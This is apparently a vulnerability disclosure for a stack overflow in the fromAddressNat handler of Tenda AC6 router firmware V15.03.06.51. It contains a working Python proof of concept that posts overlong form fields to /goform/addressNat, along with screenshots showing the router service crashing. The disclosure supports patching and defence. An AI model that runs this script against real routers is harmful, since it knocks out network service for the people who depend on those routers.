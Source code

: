 # Information

**Vendor of the products:** Tenda

**Vendor's website:** [腾达(Tenda)官方网站](https://www.tenda.com.cn/)

**Reported by:** Wang Jinshuai(jinshuaiwang61@gmail.com) ，Zhao Jiangting(sta8r9@163.com)

**Affected products:** AC6 AC1200 

**Affected firmware version:**  AC6V2.0RTL_V15.03.06.51

**Firmware download address:** [AC6 v2.0 固件-腾达中国](https://www.tendacn.com/us/download/detail-3794.html)

# Overview

A **stack overflow vulnerability** in the `fromAddressNat` function in AC6V2.0RTL_V15.03.06.51 allows an attacker to construct an excessively long value for the `entrys`, `mitInterface`, or `page` variable, leading to a stack overflow and potentially resulting in a DDoS attack.

# Vulnerability details

Analyzing the `fromAddressNat` function in this file reveals that when the `entrys`, `mitInterface`, or `page` variable contains an excessively long string, such as 400 consecutive "a" characters, a stack overflow occurs. This happens because the `list` and `gotopage` variables lack sufficient buffer space and overflow when the value is copied using the `sprintf` function.

![image-20250313205433723](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503132054423.png)

Cross-referencing the `fromaddressNat` function, it can be observed that it is indeed called by the formDefineTendDa function. As a result, an attacker can cause a DDoS attack on the router.

![image-20250313205452907](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503132144510.png)



# Poc

By changing the IP and token to the target router's IP and token, the attack can be successfully carried out.

```python
import requests
ip='192.168.0.34'
url = f"http://{ip}/goform/addressNat"

headers = {
    "Host": "192.168.0.198",
    "Connection": "keep-alive",
    "Content-Length": "31",
    "Pragma": "no-cache",
    "Cache-Control": "no-cache",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://192.168.0.198",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": "http://192.168.0.198/goform/WriteFacMac",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6",
    "Cookie": "password=wtfbro",
}

data = {
    "entrys": "a"*0x400,
    "mitInterface": "b"*0x400,
    "page": "c"*0x400,
}

response = requests.post(url, headers=headers, data=data)

print(response.status_code)
print(response.text)

```

# Attack Demonstration

At this point, the service is functioning normally.

![image-20250312223640285](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240094.png)

The script attack was successful, causing a segmentation fault.

![image-20250312223758005](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240127.png)

The service crashed.

![image-20250312223915278](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240425.png)